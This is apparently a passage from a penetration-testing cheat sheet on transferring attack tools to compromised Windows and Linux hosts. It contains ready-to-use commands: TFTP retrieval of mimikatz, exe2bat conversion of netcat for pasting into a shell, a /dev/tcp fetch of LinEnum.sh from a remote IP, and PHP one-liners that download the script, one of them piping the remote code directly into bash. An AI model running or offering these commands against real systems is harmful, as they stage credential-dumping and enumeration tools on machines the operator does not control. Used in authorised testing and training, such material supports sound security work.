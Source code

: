 Links:

https://www.jscape.com/blog/using-windows-ftp-scripts-to-automate-file-transfers


## TFTP

`tftp -i 10.10.10.10 get mimikatz.exe`


## debug.exe

> Compress file

`upx -9 nc.exe`

> Disassemble

`wine exe2bat.exe nc.exe nc.txt`

> Paste contents of nc.txt into a shell to create nc.exe 

Links:

https://xapax.gitbooks.io/security/content/transfering_files_to_windows.html


## Bash (/dev/tcp)


```bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
cat <&3
```

## PHP

### file_get_contents() 

`php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`

### fopen() 

`php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`


`php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'`


`php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`
